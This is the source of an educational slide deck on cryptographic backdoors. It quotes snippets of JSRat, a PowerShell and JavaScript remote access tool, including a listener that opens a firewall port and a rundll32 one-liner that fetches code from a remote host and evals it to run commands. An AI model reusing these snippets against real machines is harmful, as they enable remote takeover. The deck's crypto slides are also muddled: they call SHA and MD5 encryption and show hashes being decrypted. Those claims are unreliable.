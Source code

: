 

<Head>
  <title>Presentation Title</title>
</Head>

# Cryptographic Backdoors

```jsx
                                  by Pierre Hérissé
```

---

# What is it ?

---

# Backdoor :
<ul>
  <Appear>
    <li>hidden method</li>
    <li>to bypass normal behavior</li>
    <li>of authentication or encryption </li>
    <li>of a system</li>
  </Appear>
</ul>

---

<h3>legal software</h3>
<h3>+</h3>
```jsx
  illegal backdoor
```
<h3>=</h3>
```jsx
   Trojan Horse
```

---

## Example : JSRat (PowerShell)
<https://github.com/3gstudent/Javascript-Backdoor/blob/master/JSRat.ps1>

---
### [ JSRat-1 ] - Start a web server & wait for the client command
```jsx
  $Server = '192.168.1.14' #Listening IP.

  $listener = New-Object System.Net.HttpListener
  $listener.Prefixes.Add('http://+:80/')

  netsh advfirewall firewall delete rule name="PoshRat 80" | Out-Null
  netsh advfirewall firewall add rule name="PoshRat 80" dir=in
  action=allow protocol=TCP localport=80 | Out-Null

  $listener.Start()
  'Listening ...'

  try {
    h.Open("GET","http://'+$Server+'/rat",false);
    h.Send();
    c = h.ResponseText;
  }
  ...
```
---

<Image src="./JSRat/listenning.png" size="95vw"/>

---

### [ JSRat-2 ] - When user visits this JavaScript command URL, the connection is established 👌
```jsx
  rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";
  document.write();
  h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");
  w=new%20ActiveXObject("WScript.Shell");

  try { v=w.RegRead("HKCU\\Software\\Microsoft\\Windows\\
        CurrentVersion\\Internet%20Settings\\ProxyServer");
        ... h.SetProxy(2,q);
  } catch(e){}

  h.Open("GET","http://192.168.1.14/connect", false);
  try { h.Send(); B=h.ResponseText; eval(B); }
  catch(e) { new%20ActiveXObject("WScript.Shell").Run(
      "cmd /c taskkill /f /im rundll32.exe",0,true
  )}
```
---

<Image src="./JSRat/connect.png" size="90vw"/>

---

<Image src="./JSRat/example_connected.png" size="90vw"/>

---

### [ JSRat-3 ] - Commands can now be executed on the target like any other normal command prompt 😇

---

# Cryptographic :
<ul>
  <Appear>
    <li>suite of algorithms</li>
    <li>to implement security and confidentiality</li>
    <li>3 algorithms :<ul>
      <Appear>
        <li>key generation</li>
        <li>encryption (SHA, MD5, etc.)</li>
        <li>decryption </li>
      </Appear>
    </ul> </li>
  </Appear>
</ul>

---

```
cipher = [ encryption, decryption ]
```

---

  #### => Frontdoor key : cipher chosen by the encryptor
  ```jsx
      => regular password
  ```
  #### => Backdoor key : cipher chosen by the algorithm designer
  ```jsx
      => master password
  ```

---

  #### Symmetrical encryption : same key to encrypt & decrypt
  ```jsx
    password = "toto"
    hash = encrypt(password) // hash = ************
    dehash = decrypt(hash) // dehash = toto
  ```
  #### Asymmetrical encryption : uses a cipher [encrypt, decrypt]
  ```jsx
    password = "toto"
    hash = encrypt(password) // hash = ************
    superHash = cipher.encrypt(hash) // superHash = ############
  ```
  ❗️ cipher.encrypt is public, but cipher.decrypt is secret ❗️

---


  #### Backdoor encryption :
  ```jsx
  password = "toto"
  hash = randomEncrypt(password)
             // hash = ***###***###***

  superHash = cipher.encrypt(hash)
           // superHash = #*#*#*#*#*#*#*#*#

  masterHash = masterKey.cipher.encrypt(superHash);
         // masterHash = #**##;;;#*#***##;#***;;###

  backdoorHash = {header: superHash, password: masterHash}
  ```

---

Sources : <https://crypto.stackexchange.com/questions/32840/laymans-explanation-of-encryption-backdoors>



---


```jsx
« Mandatory cryptographic backdoors will leave all of
us at increased risk of data compromise, possibly
on a massive scale, by crooks and terrorists…

…whose illegal activities we will be able to
eavesdrop and investigate only if they too comply
with the law, by using backdoored encryption software
themselves. »
```
